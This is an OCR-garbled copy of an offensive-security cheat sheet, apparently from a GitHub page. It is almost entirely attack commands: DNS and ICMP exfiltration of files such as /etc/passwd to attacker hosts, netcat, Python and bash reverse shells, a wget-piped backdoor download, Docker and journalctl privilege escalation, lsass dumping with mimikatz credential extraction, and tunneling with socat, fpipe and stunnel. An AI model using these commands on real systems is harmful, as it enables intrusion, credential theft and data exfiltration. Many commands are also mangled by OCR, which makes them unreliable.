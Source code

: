 # Tips and Tricks

## Data Transfer
### Transfer by ftp without direct access to the shell

* On victim:
```bash
#1. Hex encode the file to be transferred
   xxd -p secret file.hex
#2. Read in each line and do a DNS lookup
   forb in 'cat fole.hex '; do dig $b.shell.evilexample.com; done
```
* On attacker:
```bash
#1. Capture DNS exfil packets
   tcdpump -w /tmp/dns -s0 port 53 and host system.example.com
#2. Cut the exfilled hex from the DNS packet
   tcpdump -r dnsdemo -n | grep shell.evilexample.com | cut -f9 -d'
   cut -f1 -d'.' | uniq received. txt
#3. Reverse the hex encoding
   xxd -r -p received~.txt kefS.pgp
```

### Execution of the exfil command and transferring its information with icmp

* On victim (never ending 1 liner) :
```bash
stringz=cat /etc/passwd | od -tx1 | cut -c8- | tr -d " " | tr -d "\n";
counter=0; while (($counter = ${#stringZ})) ;do ping -s 16 -c l -p
${stringZ:$counter:16} 192.168.10.10 &&
counter=$( (counter+~6)) ;done
```

* On attacker (capture pac~ets to data.dmp and parse):
```bash
tcpdump -ntvvSxs 0 'icmp[0]=8' data.dmp
grep Ox0020 data.dmp | cut -c21- | tr -d " " | tr -d "\n" | xxd -r -p
```

### Open mail relay
```bash
telnet x.x.x.x 25
HELO x.x.x.x
MAIL FROM: me@you.com
RCPT TO: YOU@YOU.com
DATA
Thank You.
quit
```

## Reverse shell
* Netcat command (run on the attacker's system)
```bash
nc 10.0.0.1 1234 -e /bin/sh    #Linux reverse shell
nc 10.0.0.1 1234 -e cmd.exe    #Windows reverse shell
```

* Netcat command (-e may not be supported in some versions)
```bash
nc -e /bin/sh 10.0.0.1 1234
```

* Netcat command (when -e is not supported)
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/fl/bin/sh -i 2 &line l0.0.0.1 1234 /tmp/f
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.105 9999 >/tmp/f
```

* Python
```python
python -c 'import socket, subprocess, os; s=socket. socket (socket.AF_INET,
socket.SOCK_STREAM); s.connect( ("10.0.0.1",1234)); os.dup2 (s.fileno() ,0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```

* Bash
```bash
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

* Other way
```bash
wget hhtp:// server /backdoor.sh -O- | sh Downloads and runs backdoor.sh
```

## Privilege Escalation
* Privilege Escalation with Docker

You must be logged in with a user who is a member of the docker group.
```bash
docker run -v /root:/mnt -it ubuntu
```
OR
```bash
docker run --rm -it --privileged nginx bash
mkdir /mnt/fsroot
mount /dev/sda /mnt/fsroot
```

* Privilege Escalation with journalctl

The journalctl launcher must be run with more privileges such as sudo.
```bash
journalctl
!/bin/sh
```
OR
```bash
sudo journalctl
!/bin/sh
```

## Receiving the lsass process and extracting information with mimikatz
```bash
procdump.exe -accepteula -64 -ma lsass.exe  lsass.dmp
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords f
```

## Extracting information in memory using the mimikatz plugin in volatility
```bash
volatility — plugins=/usr/share/volatility/plugins — profile=Win7SP0x86 -f halomar.dmp mimikatz
```

## Tunnel
* Fpipe - receiving information from port 1234 and transferring to port 80 2.2.2.2
```bash
fpipe.exe -l 1234 -r 80 2.2.2.2
```

* Socks.exe - Intranet scanning in Socks proxy

**On redirector (1.1.1.1):**
```bash
socks.exe -i1.1.1.1 -p 8C80
```

**On attacker:**
```bash
Modify /etc/proxjchains.conf:
Comment out: #proxy_dns
Comment out: #socks4a 127.0.0.1    9050
Add line: socks4    1.1.1.1    8080
Scan through socks proxy:
    proxychains nmap -PN -vv -sT -p 22,135,139,445 2.2.2.2
```

* Socat - receiving information from port 1234 and transferring to port 80 2.2.2.2
```bash
socat TCP4:LISTEN:1234 TCP4:2.2.2.2:80
```

* Create ssh without ssh service
```bash
./socat TCP-LISTEN:22,fork,reuseaddr TCP:172.10.10.11:22
```

* Stunnel - ssl encapsulated in nc tunnel (Windows & Linux)
  
**On attacker (client):**
```bash
#Modify /stunnel.conf
    clien = yes
    [netcat client]
    accept = 5555
    connect = -Listening IP-:4444

nc -nv 127.0.0.1 5555
```

**On victim (listening server)**
```bash
#Modify /stunnel.conf
    client = no
    [ne~cat server]
    accept = 4444
    connect = 7777

nc -vlp 7777
```


